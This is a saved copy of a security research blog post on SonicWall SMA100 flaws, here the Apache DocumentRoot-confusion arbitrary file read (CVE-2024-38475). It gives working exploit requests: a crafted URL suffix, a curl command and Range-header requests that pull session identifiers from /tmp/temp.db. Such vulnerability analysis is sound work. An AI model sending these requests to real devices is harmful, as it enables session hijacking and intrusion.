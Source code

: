 ```yaml
---
author: Sina Kheirkhah (@SinSinology)
aliases:
  - From Stolen Tokens to Remote Shells - SonicWall SMA100
tags:
  - readwise/articles
url: https://labs.watchtowr.com/sonicboom-from-stolen-tokens-to-remote-shells-sonicwall-sma100-cve-2023-44221-cve-2024-38475/?__readwiseLocation=
date: 2025-05-08
summary: SonicWall systems have vulnerabilities that can be exploited, including arbitrary file reading and command injection. Researchers demonstrated how attackers could gain unauthorized access to sensitive information and escalate their control over affected devices. These vulnerabilities have been added to the list of known exploited vulnerabilities by CISA, highlighting their seriousness.
---
```

# SonicBoom, From Stolen Tokens to Remote Shells - SonicWall SMA100

![rw-book-cover](https://labs.watchtowr.com/content/images/2025/05/sonicwall-sma.png)

We’re excited to share our previously private analysis of the [now exploited in-the-wild N-day vulnerabilities affecting SonicWall’s SMA100 appliance](https://www.bleepingcomputer.com/news/security/sonicwall-sma100-vpn-vulnerabilities-now-exploited-in-attacks/?ref=labs.watchtowr.com). [](https://read.readwise.io/read/01jtgmd05xqtcs0qv5e90prybt)

Specifically, today, we’re going to be analyzing and reproducing:
- **CVE-2024-38475** - Apache HTTP Pre-Authentication Arbitrary File Read [^1], discovered by Orange Tsai [](https://read.readwise.io/read/01jtgmd5x7ej03fnnmm7e8c4a6)
- **CVE-2023-44221** - Post-Authentication Command Injection, discovered by "Wenjie Zhong (H4lo) Webin lab of DBappSecurity Co., Ltd” [](https://read.readwise.io/read/01jtgmdamdctbe8dgp9e6c5170)

## DocumentRoot Confusion (Arbitrary File Read)
The first step we’re going to take is reviewing the Apache configuration file, named `httpd.conf`. This file contains the configuration settings and rewrite rules used by SonicWall: `/usr/src/EasyAccess/www/conf/httpd.conf` [](https://read.readwise.io/read/01jtgme2vy2av36qny01zx4tda)

We will focus on the relevant rules to this vulnerability. [](https://read.readwise.io/read/01jtgmf0r5s18s7q5qgqp1mpm0) There are many `RewriteRule` entries in the configuration.
However, we are particularly interested in the ones that don’t bind us to any specific paths — specifically, the rules that allow access to the **root** of the filesystem.

Quickly, we can identify that such a rule does exist within this Apache `httpd.conf` config file: [](https://read.readwise.io/read/01jtgmfas3bnrfedyw4wh07wq7)
```
RewriteRule ^/(.+)\\.[0-9]+\\.[0-9]+\\.[0-9]+\\.[0-9]+[A-Za-z0-9]*-[0-9]+.*\\.css$ /$1.css
```

What does a normal, valid request that satisfies this pattern look like?
Here is a valid example: https://host/static/css/85.368e547a156e93679310.css

When the above URL is accessed, the file `85.368e547a156e93679310.css` is successfully retrieved and presented to the user. [](https://read.readwise.io/read/01jtgmgcp1t3v4dxzkh0g62wc2)

However, as we mentioned at the beginning of this blog, Orange Tsai discovered that if the substitution path in a `RewriteRule` statement includes a prefix pointing to the root of the filesystem, Apache will attempt to access two paths. [^2] [](https://read.readwise.io/read/01jtgmjgtn005z1179x6wzy9e6)

When we access: https://host/static/css/85.368e547a156e93679310.css

Apache will try to resolve both of the following paths:  [](https://read.readwise.io/read/01jtgmjyv23bvsbnfhyejmagc5)
- `/85.368e547a156e93679310.css`
- `/usr/src/EasyAccess/www/htdocs/static/css/85.368e547a156e93679310.css`

If there is a file located at `/tmp/secret.txt`, we can read it by sending the following request: https://host/tmp/secret.txt%3f.1.1.1.1a-1.css [](https://read.readwise.io/read/01jtgmm9x13hvjamz20e9yhw5v)


This allows us to quickly demonstrate our ability to **read any file** readable by the user who runs the webserver process (in this case `nobody` user), by targeting a typical Apache HTTP log file.

For the purpose of this example, we’ll target the file `/mnt/ram/var/log/httpd.log` by sending the following HTTP request: [](https://read.readwise.io/read/01jtgmn3gmvg2dd9qkbfasapvj)
```http
GET /mnt/ram/var/log/httpd.log%3f.1.1.1.1a-1.css HTTP/1.1
Host: host 
```

The following response is returned: [](https://read.readwise.io/read/01jtgmnbqxm9m2x31cgdrk5fbn)
```html
HTTP/1.1 200 OK
Server: SonicWALL SSL-VPN Web Server
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval'; object-src 'self'; style-src 'self' 'unsafe-inline'
Content-Length: 2593
Content-Type: text/plain

[Wed Apr 30 08:48:03.733994 2025] [:notice] [pid 2476] ModSecurity for Apache/2.6.8 (<http://www.modsecurity.org/>) configured.
[Wed Apr 30 08:48:03.734068 2025] [:notice] [pid 2476] ModSecurity: APR compiled version="1.6.5"; loaded version="1.6.5"
[Wed Apr 30 08:48:03.734153 2025] [:notice] [pid 2476] ModSecurity: PCRE compiled version="8.32 "; loaded version="8.32 2012-11-30"
[Wed Apr 30 08:48:03.734155 2025] [:notice] [pid 2476] ModSecurity: LIBXML compiled version="2.7.8"
[Wed Apr 30 08:48:03.751992 2025] [:notice] [pid 2477] mod_antiloris 0.4 started
[Wed Apr 30 08:48:03.755098 2025] [core:warn] [pid 2477] AH00098: pid file /usr/src/EasyAccess/var/logs/httpd.pid overwritten -- Unclean shutdown of previous Apache run?
[Wed Apr 30 08:48:03.944222 2025] [mpm_prefork:notice] [pid 2477] AH00163: Apache/2.4.38 (Unix) OpenSSL/1.1.1t mod_wsgi/4.5.24 Python/3.6 configured -- resuming normal operations
```

### Escalating Arbitrary File Read

We identified the file `/tmp/temp.db` - this is a SQLite database that contains a significant amount of information, but most importantly, it contains *session identifiers* for currently active sessions - jackpot. [](https://read.readwise.io/read/01jtgmpgn9vsfhjkv7exf6ksx3)

Given we can read arbitrary files, surely the next step is to just exfiltrate this database as so:
`curl https://host/tmp/temp.db%3f.1.1.1.1a-1.css -o temp.db`

Happy with our progress, we loaded our newly downloaded SQLite database file into our local DB viewer and revisited the `Sessions` table. To our surprise, the `Sessions` table was empty. [](https://read.readwise.io/read/01jtgmsrmh0p15k71a73w8sb1z)

Curiously, *sometimes* we would get a SQLite database with real content, and other times we wouldn’t. [](https://read.readwise.io/read/01jtgmt7wg0b4nhpmwr6t61b0f)

Suddenly, we had an idea - what if, instead of downloading the entire file in a single request, we retrieved it **chunk by chunk**?

Apache, by default, supports the `Range` header — and here’s an example of it in action, specifically requesting the byte range that we know our session ID and other important information is stored: [](https://read.readwise.io/read/01jtgmv19k3234qvd553tjw3q6)
```http
GET /tmp/temp.db%3f.1.1.1.1a-1.css HTTP/1.1
Host: host
Range: bytes=7875-8000
```

This turned out to be reliable and stable. [](https://read.readwise.io/read/01jtgmvbpk8h0p3y05f57ppmp4)

[^1]: [🍊 Orange Tsai - Confusion Attacks Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!](🍊%20Orange%20Tsai%20-%20Confusion%20Attacks%20Exploiting%20Hidden%20Semantic%20Ambiguity%20in%20Apache%20HTTP%20Server!.md)

[^2]: [🔥 2. DocumentRoot Confusion](🍊%20Orange%20Tsai%20-%20Confusion%20Attacks%20Exploiting%20Hidden%20Semantic%20Ambiguity%20in%20Apache%20HTTP%20Server!.md#🔥%202.%20DocumentRoot%20Confusion)
